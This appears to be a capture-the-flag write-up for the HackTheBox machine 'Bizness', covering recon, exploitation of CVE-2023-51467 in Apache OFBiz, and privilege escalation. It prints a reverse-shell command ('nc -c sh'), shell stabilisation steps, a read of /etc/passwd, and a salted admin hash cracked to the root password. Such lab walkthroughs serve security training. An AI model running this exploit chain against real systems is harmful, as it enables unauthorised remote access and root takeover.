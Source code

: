 # Bizness
Hello, today we will be taking on Bizness, an easy box from HTB.
- [Recon](https://github.com/0x7ax/Bizness?tab=readme-ov-file#recon)
- [Exploit | Initial foothold](https://github.com/0x7ax/Bizness?tab=readme-ov-file#exploit--initial-foothold)
- [Privesc](https://github.com/0x7ax/Bizness?tab=readme-ov-file#privesc)
- [Conclusion](https://github.com/0x7ax/Bizness?tab=readme-ov-file#conclusion)
# Recon
We start with an nmap scan:

`$ nmap -sC -sV -oN nmap/Bizness 10.10.11.252`

![nmap result](https://github.com/0x7ax/Bizness/assets/91915054/59b24c86-a247-457d-9b49-b92a9241043a)
Found SSH, HTTP, and HTTPS

Since we found a hostname, we can add it to /etc/hosts using the following command:

`$ sudo echo “10.10.11.252 bizness.htb” >> /etc/hosts`

Followed HTTPS, found the following on the homepage:
- Address: A108 Adam Street, NY 535022, USA
- Phone #: +1 5589 55488 55
- Email: info@bizness.htb
  
Doesn't seem to take us anywhere.

Then did a gobuster to see if there are any other directories:

`$ gobuster dir -u https://bizness.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --wildcard -k`

I used the flags “--wildcard” and “-k” to avoid errors. Oddly, the sizes were 0 but if we got a redirection then that means we got a valid directory.

Furthermore, we found a /webtools directory that isn't default on all sites, so we can check it out

Turns out it's an Apache OFBiz portal with the version down on the right (18.12)

![OFBiz portal](https://github.com/0x7ax/Bizness/assets/91915054/07a3e27b-7ae1-488d-ae14-52bd9cd5101e)

A quick Google search tells us that it's vulnerable to CVE-2023-51467, which is an interesting vulnerability that will grant us RCE. Feel free to read about it more [here](https://nvd.nist.gov/vuln/detail/CVE-2023-51467)

# Exploit | Initial foothold

I found an exploit online that will run a command on the vulnerable service, hoping that I can get a reverse shell back 

I used [exploit.py](exploit.py), creds go to the owner. 

*Change to your desired ip and port*

- Set up a listener

`$ nc -lvnp [port]`

- Run the following command

`$ python3 exploit.py --url https://bizness.htb --cmd "nc -c sh [ip] [port]"`

![exploit](https://github.com/0x7ax/Bizness/assets/91915054/b63c4476-d35a-46b2-b7f8-dcf9de4b8caa)

We got a reverse shell! Now we have to stabilize it

`$ python3 -c ‘import pty;pty.spawn("/bin/bash")’`

Ctrl+Z

`$ stty raw -echo`

`$ fg` (click Enter twice here)

`$ export TERM=xterm`

Now, you have a full shell.

![stable](https://github.com/0x7ax/Bizness/assets/91915054/cc9eb29b-ce87-4b0a-ae0f-ad475c522e57)

We have spawned in /opt/ofbiz, which is an interesting directory, but first let's grab user.txt from /home/ofbiz

a quick command tells us that only ofbiz and root have shells so it only makes sense that ofbiz has the user.txt file

`$ cat /etc/passwd | grep bash`

![user.txt](https://github.com/0x7ax/Bizness/assets/91915054/1f0479a0-c4b8-40dc-b0fe-af927b5a9e38)

# Privesc

First, I ran linpeas.sh, which didn't tell me much except for the files in /opt/ofbiz

So I digged deeper and found an interesting file that has a SHA1 hash. 

![AdminUserLoginData.xml](https://github.com/0x7ax/Bizness/assets/91915054/7111be9a-b8c2-45e8-bf11-bf7bf56f4c0b)

We found a SHA1 hash: 47ca69ebb4bdc9ae0adec130880165d2cc05db1a

The problem with that hash is that it needs a salt which doesn't appear in the file

With more recon, we found an Apache Derby database which has the salt for the hash above

![derby database](https://github.com/0x7ax/Bizness/assets/91915054/b3e88449-f7be-442b-a060-25044556f1e5)

We can see that the hash for user admin is $SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I

We can crack this using john or hashcat, but a more efficient way would be to use a script that encrypts the contents of rockyou.txt and compare it to the string we have

For that I used the following python script which I found online: [pass.py](pass.py), also credits go to the owner

![pass.py](https://github.com/0x7ax/Bizness/assets/91915054/9883b0a3-0794-4eec-880a-b26041ff0c44)

 We got a hit, *monkeybizness*
 
 Use the following command and enter the password above to get root access
 
 `$ su root` 
 
 ![root](https://github.com/0x7ax/Bizness/assets/91915054/b34f5cf9-b38d-45e1-b00a-dd132ac78d69)
 
# Conclusion
Bizness was an easy HTB box that has a vulnerable OFbiz service which leads to RCE. 

This is for educational purposes only
